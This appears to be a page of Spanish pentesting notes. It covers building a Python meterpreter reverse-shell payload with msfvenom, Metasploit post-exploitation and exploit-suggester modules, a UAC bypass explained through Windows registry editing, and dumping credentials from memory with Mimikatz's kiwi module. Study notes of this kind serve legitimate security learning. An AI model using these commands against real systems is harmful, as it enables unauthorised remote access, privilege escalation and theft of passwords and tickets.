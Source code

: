 ### Crear Payload de meterprete - Python

Crear payload de meterprete para ejecutar con Python:

```bash
msfvenom -p python/meterpreter/reverse_tcp lhost=ip lport=puerto
```

Importante a la hora de introducir el payload generado, sustituir las `'` por `\'`, para que no interfiera con la sintaxis de Python, además de añadir:

```bash
f'python -c "payload"'
```

### Metasploit - Post Esplotación

Una vez dentro de la maquina objetivo, podemos hacer uso de los modulos de post explotacion de Metasploit, la ruta por defecto de estos modulos es:

```java
/usr/share/metasploit-framework/modules/post
```

Para usar estos modulos es recomendable hacer uso de **Meterpreter**, y se ejecutan asi:

```bash
run explit en cuestion
```

Recomendador de exploits:

```javascript
use post/multi/recon/local_exploit_suggester
```

#### UAC Bypass

Es el cuadradito de darle a si cuando ejecutas algo como admin.

Básicamente es editar la rama del registro de Windows con un binario que se ejecuta como administrador, a la que como usuario tenemos acceso y podemos editar, para que cargue lo que quieras, por ejemplo, una PowerShell, al ser un binario auto elevado, ejecuta la PowerShell con privilegios de administrador.

Con Meterpreter hay modulos para explotar esto.

#### Volcado de memoria con Mimikatz

Este programa nos permite extraer: contraseñas, PIN code, hash, kerberos tickets de la memoria en Windows.

Muchos antivirus lo detectan!!!!

Con una sesión de Meterpreter podemos hacer uso del módulo `kiwi`:

```bash
help kiwi
```

Con este comando se ven todas las opciones que hay, consultar GitHub para más info.
